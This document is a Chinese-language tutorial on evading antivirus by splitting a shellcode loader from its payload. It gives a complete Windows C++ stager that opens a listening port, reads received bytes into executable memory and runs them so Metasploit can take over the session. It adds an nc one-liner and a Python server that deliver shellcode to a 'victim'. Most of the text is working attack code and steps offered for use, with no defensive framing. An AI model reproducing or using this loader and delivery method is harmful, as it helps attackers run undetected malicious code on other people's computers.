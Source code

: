 # 简单的分离免杀

## 简介

通常杀毒软件会匹配静态特征来进行恶意软件的识别，虽然现在有很多行为查杀的引擎，但个人认为杀毒软件仍旧已特征码为主，行为免杀很大程度上是监控windows api，而这些恶意软件使用的api往往都是和合法软件是一致的，这也成为了行为查杀技术的桎梏，很多恶意软件只要换个不同的编译环境，就能不被杀毒软件注意到从而绕过杀毒软件。

本文鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体和执行体分离，从而规避特征免杀。

## 流程

1. 在受害者电脑上打开个侦听端口，分配可执行内存
2. 等待传入 payload
3. 连接到受害者侦听端口，将 shellcode 作为二进制数据发送
4. 受害者将 shellcode 拷入可执行内存
5. 执行 shellcode，由 metasploit 接管 session

## 代码实现

给出代码是监听端口等待连接的，也可以做简单修改做成反向连接的。

```text
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")
int main(void)
{
LPWSADATA wsaData = new WSAData();
SOCKET listenSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
CHAR bufferReceivedBytes[4096] = { 0 };
INT RecvBytes = 0;
PCSTR port = "477";
ADDRINFOA* SocketHint = new ADDRINFOA();
ADDRINFOA* AddrInfo = new ADDRINFOA();
SocketHint->ai_family = AF_INET;
SocketHint->ai_socktype = SOCK_STREAM;
SocketHint->ai_protocol = IPPROTO_TCP;
SocketHint->ai_flags = AI_PASSIVE;
WSAStartup(MAKEWORD(2, 2), wsaData);
GetAddrInfoA(NULL, port, SocketHint, &AddrInfo);
listenSocket = socket(AddrInfo->ai_family, AddrInfo->ai_socktype,
AddrInfo->ai_protocol);
bind(listenSocket, AddrInfo->ai_addr, AddrInfo->ai_addrlen);
listen(listenSocket, SOMAXCONN);
ClientSocket = accept(listenSocket, NULL, NULL);
RecvBytes = recv(ClientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes),
NULL);
LPVOID shellcode = VirtualAlloc(NULL, RecvBytes, MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
((void(*)()) shellcode)();
return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%2841%29.png)

端口已经开始侦听 我们使用 msf 生成 shellcode 并通过 nc 交付给受害者

![](../.gitbook/assets/image%20%2865%29.png)

生成一段 c 格式的 shellcode

![](../.gitbook/assets/image%20%2850%29.png)

处理一下变成一句字符串的形式

![](../.gitbook/assets/image%20%284%29.png)

```text
echo -e “shellcode-line” |nc  ip port
```

可以使用简单的python服务器传递shellcode

```text
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```

![](../.gitbook/assets/image%20%2856%29.png)

![](../.gitbook/assets/image%20%2822%29.png)



